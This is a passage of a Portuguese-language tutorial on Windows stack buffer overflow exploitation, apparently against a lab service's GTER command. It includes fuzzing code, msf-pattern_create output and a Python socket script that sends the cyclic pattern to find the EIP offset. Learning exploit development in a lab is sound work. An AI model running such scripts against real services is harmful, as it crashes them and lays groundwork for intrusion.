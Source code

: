 ```python
        s.close()
        sleep(1)
        payload = payload + b"A"*100
    except:
        print("Buffer estourado em %s bytes"%(str(len(payload))))
        sys.exit()
```

![Enumaração do comando.](/std/winbof/winbof-25.png)

Temos o offset de 309 bytes para criarmos nosso payload.

Sabendo disso, precisamos encontrar o offset preciso para atingir o EIP, vamos utilizar o msf-pattern_create para criar uma string distinta.

```bash
$ msf-pattern_create -l 309             
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2

```

Vamos inserí-lo em nosso script.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# payload a ser enviado
offset = 5060

payload = b"GTER /.:/" # funcao inicial
#payload += b"A" * offset 
payload += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado!")
```
